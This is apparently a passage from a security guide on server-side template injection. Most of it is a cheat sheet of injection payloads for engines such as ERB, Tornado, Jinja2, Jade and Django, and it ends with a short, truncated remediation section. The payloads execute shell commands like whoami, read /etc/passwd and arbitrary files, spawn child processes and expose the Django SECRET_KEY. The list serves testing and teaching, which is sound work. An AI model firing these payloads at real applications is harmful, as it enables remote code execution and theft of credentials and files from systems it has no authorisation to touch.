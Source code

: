 ```
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
-------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
-------------------------------------------------------------------
Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
-------------------------------------------------------------------
Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

## Remediation
---

Remediations for the SSTI vulnerability depend on the different template engines in use. There are 2 common suggestions 
to remediate this vulnerability:

-   Sanitization: Sanitize user input before passing it into the templates to minimize vulnerabilities from any malicious.
